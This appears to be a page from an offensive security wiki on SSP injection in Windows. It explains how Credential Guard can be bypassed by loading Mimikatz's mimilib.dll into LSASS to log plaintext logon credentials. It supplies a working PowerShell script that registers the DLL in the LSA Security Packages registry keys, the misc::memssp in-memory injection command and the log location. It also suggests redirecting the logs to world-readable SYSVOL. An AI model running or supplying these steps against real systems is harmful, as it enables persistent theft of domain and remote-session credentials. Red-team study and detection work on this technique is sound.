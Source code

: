 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSP Injection

Windows authentication is built on the **Security Support Provider Interface (SSPI)**, which delegates auth tasks to various **Security Support Providers (SSPs)** like NTLM, Kerberos, WDigest, and CredSSP. These SSPs are implemented as DLLs loaded into the Local Security Authority Subsystem Service process (`LSASS`), which manages credential storage and authentication on behalf of the OS.

**Credential Guard** is a Windows security feature that protects cached credentials by isolating them from `LSASS` using virtualization. It relies on **Virtualization-Based Security (VBS)**, which creates two separate trust levels: **VTL0** (where the OS and `LSASS` run) and **VTL1** (a protected space where sensitive components like `LSAISO.exe` reside). When Credential Guard is enabled, **domain credentials are isolated in VTL1** and only accessible to `LSAISO.exe`, while `LSASS` continues to run in VTL0. This isolation prevents tools like [Mimikatz](../ad-tools/mimikatz.md) from dumping domain creds — though local account hashes remain exposed.&#x20;

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::logonpasswords

Session           : RemoteInteractive from 4
User Name         : Administrator
           * LSA Isolated Data: NtlmHash
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
```
{% endcode %}

However, Credential Guard **doesn't block credential flow through** `LSASS` **during login**. This creates a gap: by registering or injecting a custom SSP into `LSASS`, attackers can intercept plaintext credentials at login — before they’re protected — for users logging in interactively or via RDP/WinRM. Mimikatz provides a custom SSP (`mimilib.dll`) that logs cleartext credentials of all local logons, service accounts, and remote sessions. It can be deployed in two main ways:

{% tabs %}
{% tab title="Registry Based" %}
To deploy it persistently, the DLL is dropped to `c:\windows\system32` and registered via the `Security Packages` registry key. This method is more reliable that `LSASS` injection, but is on-disk and modifies registry keys:

{% code overflow="wrap" %}
```powershell
# Retrieve the current list of registered SSPs from the OSConfig registry path
$packages = Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\' -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'

# Add the custom SSP "mimilib" to the list
$packages += "mimilib"

# Update the OSConfig registry key with the modified list, registering the new SSP
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\' -Name 'Security Packages' -Value $packages

# Update the main LSA registry key to ensure the custom SSP is recognized (some systems use this path)
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\' -Name 'Security Packages' -Value $packages
```
{% endcode %}

After the host is rebooted, the credentials are logged to:

```powershell
C:\Windows\System32\mimilsa.log
```
{% endtab %}

{% tab title="LSASS Injection" %}
This method injects the SSP directly into `LSASS` without writing to disk or requiring a reboot, though this is less stable on newer systems like Server 2019/2022:

```powershell
mimikatz # misc::memssp
```
{% endtab %}
{% endtabs %}

The main downside of this technique is that it **requires Domain Admin privileges** — both to register or inject the custom SSP and to retrieve the captured credentials from `C:\Windows\System32`. This can be partially mitigated by modifying Mimikatz to write logs to a world-readable location like `SYSVOL`. Additionally, the attack significantly **weakens system security and introduces substantial forensic artifacts**, particularly through registry modifications and potential kernel-mode driver installation.

